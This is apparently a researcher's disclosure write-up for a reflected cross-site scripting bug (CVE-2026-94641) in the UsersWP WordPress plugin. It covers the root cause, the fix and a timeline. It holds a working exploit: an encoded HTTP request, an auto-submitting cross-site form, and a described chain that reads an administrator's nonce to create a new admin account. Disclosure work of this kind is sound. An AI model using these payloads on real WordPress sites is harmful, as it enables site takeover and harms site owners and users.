


| | |
|---|---|
| CVE | [CVE-2026-94641](https://www.cve.org/CVERecord?id=CVE-2026-94641) |
| Plugin | UsersWP (`userswp`) |
| Affected | <= 1.2.73 |
| Fixed in | 1.2.74 |
| Severity | CVSS 7.1 High |
| Attacker needs | no account (a logged in user must open the page and activate the rendered control) |
| Advisory | [Patchstack](https://patchstack.com/database/wordpress/plugin/userswp/vulnerability/wordpress-userswp-plugin-1-2-73-cross-site-scripting-xss-vulnerability) |
| PoC | [Mor-Golan/CVE-2026-94641](https://github.com/Mor-Golan/CVE-2026-94641) |

## Summary

I found a reflected cross site scripting bug in UsersWP.<br>
It is reachable through an AJAX action the plugin registers whenever it is active, with nothing configured after activation and with no account on the attacker side.<br>
The vulnerable code lives in the bundled wp-super-duper library.<br>
A single POST to `admin-ajax.php` reflects attacker controlled input into an inline `onclick` handler in a way that survives WordPress escaping, so attacker JavaScript runs on the site origin in the session of any logged in user who activates the rendered control.<br>
In my lab, against an administrator victim, the injected script read the administrator's own nonce and created a second administrator account.<br>
I tested this on UsersWP 1.2.72.<br>
The official advisory records the affected range as <= 1.2.73, fixed in 1.2.74.

## Root cause

The sink is in `vendor/ayecode/wp-super-duper/wp-super-duper.php`.<br>
Line 297 reads the request parameter and passes it through the attribute escaper:

```php
$editor_id = esc_attr( $_POST['editor_id'] );
```

Line 328 then echoes that value straight into an inline event handler:

```php
onclick="sd_insert_shortcode(<?php echo "'" . $editor_id . "'"; ?>)"
```

Two platform behaviours combine to defeat the escaping.

1. `esc_attr()` calls `_wp_specialchars( $text, ENT_QUOTES, false, $double_encode = false )`.<br>
   With double encoding off, an entity that is already present in the input is passed through unchanged rather than encoded again.
2. The value lands inside an `onclick` attribute.<br>
   The HTML parser decodes entities in an attribute value before the JavaScript parser sees the result.

So a caller who submits the six characters `&#039;` instead of an apostrophe reaches the JavaScript parser with a real `'`, which closes the string literal.<br>
A literal apostrophe does not work, because `wp_magic_quotes()` runs `addslashes()` over `$_POST` and this code never calls `wp_unslash()`, so a raw `'` arrives as `\'` and stays inside the string.<br>
I confirmed this with a differential set of inputs.<br>
The two rows that matter:

```
sent as editor_id         emitted onclick
x');alert(1);//           sd_insert_shortcode('x\&#039;);alert(1);//')   <- inert, backslash added
x&#039;);alert(1);//      sd_insert_shortcode('x&#039;);alert(1);//')    <- no backslash, executes
```

A positive control sent as plain `ABC123XYZ` came back verbatim, so the escaped rows are a real defence and not a blind measurement.<br>
One more detail is a property of the language, not a defence of the site.<br>
The bare AJAX response loads no scripts, so `sd_insert_shortcode` is otherwise undefined, and the payload declares its own copy inside the injection.<br>
Because JavaScript hoists function declarations, the call on the first statement resolves to the attacker's body.

The handler verifies no token of any kind.<br>
It reads `$_POST['editor_id']` and calls neither `check_ajax_referer()` nor `wp_verify_nonce()` nor any capability check, so the only requirement to reach it is that the request carries a logged in session.<br>
Because wp-super-duper is a shared AyeCode framework, the same file ships inside other plugins as well.<br>
I filed this against UsersWP, which is where I proved it.

## Proof of concept

I tested against UsersWP 1.2.72 on WordPress 7.0.2 and PHP 8.2.32, with nothing configured after activation.

The reflection itself is a single request.<br>
The attacker has no account.<br>
The request below carries the session of whichever logged in user the browser belongs to:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost:8080
Cookie: <any logged in session>
Content-Type: application/x-www-form-urlencoded

action=super_duper_get_picker&editor_id=x%26%23039%3B%29%3Bfunction+sd_insert_shortcode%28%29%7Balert%28%26%23039%3BXSS+on+%26%23039%3B%2Bdocument.domain%29%7D%2F%2F
```

The server answers HTTP 200 and emits the attribute with the entity intact and no backslash:

```html
<button class="button sd-insert-shortcode-button"
  onclick="sd_insert_shortcode('x&#039;);function sd_insert_shortcode(){alert(&#039;XSS on &#039;+document.domain)}//')">Insert Shortcode</button>
```

For an end to end test, an attacker hosts a page that auto submits a top level cross site form POST to the target.<br>
It must be served from a host that differs from the target, because the browser computes the site from host and scheme and ignores the port:

```html
<form id="f" method="POST" action="http://localhost:8080/wp-admin/admin-ajax.php">
  <input type="hidden" name="action" value="super_duper_get_picker">
  <input type="hidden" name="editor_id"
         value="x&amp;#039;);function sd_insert_shortcode(){alert(&amp;#039;XSS on &amp;#039;+document.domain)}//">
</form>
<script>document.getElementById('f').submit();</script>
```

The `value` is HTML escaped once for the form, so the six characters actually sent are `&#039;`, an entity and not an apostrophe.<br>
When the logged in victim opens the page and activates the rendered Insert Shortcode control, attacker script runs on the target origin.



Whether the cross site POST carries the victim session depends on the browser, because WordPress sets no `SameSite` attribute on its authentication cookies.<br>
I measured this.<br>
On Firefox the session rides the request with no timing window.<br>
On Chromium and Chrome it rides only within roughly two minutes of login, under the Lax plus POST intervention.<br>
A same site delivery point on the target removes the constraint.<br>
The underlying defect does not depend on delivery.

The full scripts, including a one command check, are in the PoC repository.

## Impact

Script runs on the site origin in the victim's authenticated session, so it acts as that user through same origin requests.<br>
I measured both ends of this.

Against an ordinary subscriber victim, the injected script fetched `/wp-admin/profile.php` with the victim's credentials and read the victim's own login and email out of their session, values an anonymous caller cannot obtain.

Against an administrator victim, I took the chain to its conclusion.<br>
The injected script fetched `/wp-admin/user-new.php` in session, read the administrator's own `_wpnonce_create-user` nonce out of that page, and posted a new user with the administrator role.<br>
The new account appears in the site user list, and I confirmed it is a working session rather than a dormant row by logging in to it from a fresh cookie jar and reaching pages that require `manage_options` and `install_plugins`.<br>
This settles the usual objection to admin context XSS, that the payload would need an out of band nonce.<br>
It did not, because it read the administrator's own nonce from a page fetched with the administrator's own cookies.



I do not claim session cookie theft.<br>
WordPress sets its authentication cookies HttpOnly, so script cannot read them.<br>
What the payload gets is the ability to issue same origin requests that carry those cookies automatically.<br>
Execution requires the victim to activate the rendered control, so this needs user interaction.

## Fix

Update to UsersWP 1.2.74.

The correct repair is to escape for the JavaScript context rather than the HTML attribute context, and to unslash first:

```php
-$editor_id = esc_attr( $_POST['editor_id'] );
+$editor_id = sanitize_key( wp_unslash( $_POST['editor_id'] ) );
```

`sanitize_key()` reduces the value to `[a-z0-9_\-]`, which cannot carry an entity, a quote or a parenthesis, and an editor id has no legitimate need for any other character.<br>
If a wider character set is required, `esc_js()` is the correct escaper for a value that lands inside a JavaScript string literal, and `wp_unslash()` must still be applied first.

## Timeline

- 2026-09-14: Found and tested on UsersWP 1.2.72
- 2026-10-09: CVE published

## References

- [CVE-2026-94641](https://www.cve.org/CVERecord?id=CVE-2026-94641)
- [Patchstack advisory](https://patchstack.com/database/wordpress/plugin/userswp/vulnerability/wordpress-userswp-plugin-1-2-73-cross-site-scripting-xss-vulnerability)
- [PoC repository](https://github.com/Mor-Golan/CVE-2026-94641)
- [UsersWP on wordpress.org](https://wordpress.org/plugins/userswp/)
